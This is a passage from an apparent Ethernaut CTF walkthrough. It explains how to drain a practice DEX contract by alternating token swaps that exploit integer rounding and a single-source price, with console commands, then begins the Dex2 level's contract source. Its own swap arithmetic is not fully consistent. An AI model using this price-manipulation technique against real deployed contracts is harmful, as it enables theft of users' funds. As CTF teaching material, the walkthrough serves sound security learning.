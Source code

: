 We now own 65 tokens of token2 which is more than enough to drain the Dex of
token1 tokens. Let's see the calculation:

```
65 * 110 / 45 = 158
```
The Dex does not have 158 tokens of token1. Let's see how many tokens of token1
we need to actually swap in order to drain the Dex of tokens1.

```
110 = X * 110 / 45 => X = 45
```

That means we just need to swap 45 tokens of token1 in order to drain the Dex.

Let's do it :)
Run just the following commands in the terminal until the Dex has no tokens left:

```javascript
await contract.swap(await contract.token1(), await contract.token2(), 10)
await contract.swap(await contract.token2(), await contract.token1(), 20)
... and so on
```
And you are done :)

### Learning

Division in Solidity rounds towards zero. Always be aware of that when you are
doing calculations with division.

Learning from the level itself:

>The integer math portion aside, getting prices or any sort of data from any single source is a massive attack vector in smart contracts.
>
>You can clearly see from this example, that someone with a lot of capital could manipulate the price in one fell swoop, and cause any applications relying on it to use the wrong price.
>
>The exchange itself is decentralized, but the price of the asset is centralized, since it comes from 1 dex. However, if we were to consider tokens that represent actual assets rather than fictitious ones, most of them would have exchange pairs in several dexes and networks. This would decrease the effect on the asset's price in case a specific dex is targeted by an attack like this.
>
>Oracles are used to get data into and out of smart contracts.
>
>Chainlink Data Feeds are a secure, reliable, way to get decentralized data into your smart contracts. They have a vast library of many different sources, and also offer secure randomness, ability to make any API call, modular oracle network creation, upkeep, actions, and maintainance, and unlimited customization.

## Level 23: Dex2 <a name="level-23-dex-2">

Let's have a look at the contract first:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import "openzeppelin-contracts-08/access/Ownable.sol";

contract DexTwo is Ownable {
    address public token1;
    address public token2;

    constructor() {}

    function setTokens(address _token1, address _token2) public onlyOwner {
```